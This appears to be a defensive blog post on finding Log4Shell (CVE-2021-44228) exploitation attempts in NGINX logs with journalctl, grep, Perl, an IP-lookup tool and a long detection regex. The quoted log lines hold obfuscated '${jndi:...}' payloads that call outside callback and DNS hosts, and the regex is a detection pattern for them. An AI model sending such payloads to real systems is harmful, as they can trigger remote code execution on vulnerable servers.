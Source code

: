During this year's Advent the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability was discovered. It's a vulnerability with high impact. This is because of three factors. It allows an attacker to run arbitrary code (downloaded from LDAP servers) on the victim's system. Log4j is a logging library used by lots of programs. It's easy to exploit. The way to fix this vulnerability is upgrade the log4j library to the latest version.

To find out if someone is trying to exploit this vulnerability in your system you can review your logs. For example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:'
Dec 12 05:34:35 cloud waf[638]: 165.22.201.45 - - [12/Dec/2021:05:34:35 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world80.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 00:51:28 cloud waf[638]: 157.245.108.40 - - [13/Dec/2021:00:51:28 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world443.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 05:01:39 cloud waf[638]: 45.83.64.19 - - [13/Dec/2021:05:01:39 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 444 0 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

These are logs from NGINX web server. There is no Java running on this system but the Internet is being scanned en masse. The web server is returning 444 because it's configured like this:

```
# Just close connection if the server is accessed via IP address or via the
# wrong hostname. _ is just an invalid value which will never trigger on a real
# hostname.
server {
    listen 443 default_server;
    server_name _;
    return 444;
}
```

If you are curious who is making these requests you can pull out the IP addresses from the logs, for example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -wlne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq
157.245.108.40
165.22.201.45
45.83.64.19
```

To discover information about the IP addresses you might find [checkip](https://github.com/jreisinger/checkip) useful:

```sh
$ for ip in $(sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -wlne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq)
do
echo "---[$ip]---"; checkip $ip 2> /dev/null
done
---[157.245.108.40]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Bengaluru, country: India (IN)
ping            0% packet loss, sent 5, recv 5, avg round-trip 141 ms
shodan.io       OS: n/a, 1 open port: tcp/4646
urlscan.io      0 related URLs
virustotal.com  network: 157.245.0.0/16, SAN: knrao.in, cpanel.knrao.in, cpcalendars.knrao.in, cpcontacts.knrao.in, mail.knrao.in, webdisk.knrao.in, webmail.knrao.in, www.knrao.in
Malicious       38% 🤏
---[165.22.201.45]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Amsterdam, country: Netherlands (NL)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: Ubuntu, 4 open ports: tcp/22 (OpenSSH, 8.2p1 Ubuntu-4ubuntu0.2), tcp/80 (Apache httpd, 2.4.51), tcp/443 (Apache httpd, 2.4.7), tcp/465 (Exim smtpd, 4.94.2)
urlscan.io      0 related URLs
virustotal.com  network: 165.22.0.0/16, SAN: *.adleon2jnbvsh.com, adleon2jnbvsh.com
Malicious       38% 🤏
---[45.83.64.49]---
abuseipdb.com   domain: n/a, usage type: n/a
iptoasn.com     AS description: ALPHASTRIKE-RESEARCH
maxmind.com     city: n/a, country: Germany (DE)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: n/a, 1 open port: tcp/179
urlscan.io      0 related URLs
virustotal.com  network: 45.83.64.0/22, SAN: n/a
Malicious       50% 🚫
```

More sophisticated exploits and evasion techniques are being [discovered](https://blog.cloudflare.com/exploitation-of-cve-2021-44228-before-public-disclosure-and-evolution-of-waf-evasion-patterns/). So instead of the simple `\$\{jndi:` regex you can use [this](https://github.com/back2root/log4shell-rex) monster:

```sh
L4S_REGEX='(?im)(?:^|[\n]).*?(?:[\x24]|%(?:25%?)*24|\\u?0*(?:44|24))(?:[\x7b]|%(?:25%?)*7b|\\u?0*(?:7b|173))[^\n]*?((?:j|%(?:25%?)*(?:4a|6a)|\\u?0*(?:112|6a|4a|152))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))[^\n]*?((?:l|%(?:25%?)*(?:4c|6c)|\\u?0*(?:154|114|6c|4c))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?|(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:m|%(?:25%?)*(?:4d|6d)|\\u?0*(?:4d|155|115|6d))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))|(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:[^\n]*?(?:[i\x{130}\x{131}]|%(?:25%?)*(?:49|69|C4%(?:25%?)*B0|C4%(?:25%?)*B1)|\\u?0*(?:111|69|49|151|130|460|131|461))){2}[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))|(?:c|%(?:25%?)*(?:43|63)|\\u?0*(?:143|103|63|43))[^\n]*?(?:o|%(?:25%?)*(?:4f|6f)|\\u?0*(?:6f|4f|157|117))[^\n]*?(?:r|%(?:25%?)*(?:52|72)|\\u?0*(?:122|72|52|162))[^\n]*?(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))|(?:n|%(?:25%?)*(?:4e|6e)|\\u?0*(?:4e|156|116|6e))[^\n]*?(?:d|%(?:25%?)*(?:44|64)|\\u?0*(?:44|144|104|64))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))|(?:h|%(?:25%?)*(?:48|68)|\\u?0*(?:110|68|48|150))(?:[^\n]*?(?:t|%(?:25%?)*(?:54|74)|\\u?0*(?:124|74|54|164))){2}[^\n]*?(?:p|%(?:25%?)*(?:50|70)|\\u?0*(?:70|50|160|120))(?:[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163)))?)[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))|(?:b|%(?:25%?)*(?:42|62)|\\u?0*(?:102|62|42|142))[^\n]*?(?:a|%(?:25%?)*(?:41|61)|\\u?0*(?:101|61|41|141))[^\n]*?(?:[s\x{17f}]|%(?:25%?)*(?:53|73|C5%(?:25%?)*BF)|\\u?0*(?:17f|123|577|73|53|163))[^\n]*?(?:e|%(?:25%?)*(?:45|65)|\\u?0*(?:45|145|105|65))[^\n]*?(?:[\x3a]|%(?:25%?)*3a|\\u?0*(?:72|3a))(JH[s-v]|[\x2b\x2f-9A-Za-z][CSiy]R7|[\x2b\x2f-9A-Za-z]{2}[048AEIMQUYcgkosw]ke[\x2b\x2f-9w-z]))'
sudo journalctl --since 2021-12-09 | perl -wlne "/$L4S_REGEX/ && print"
```
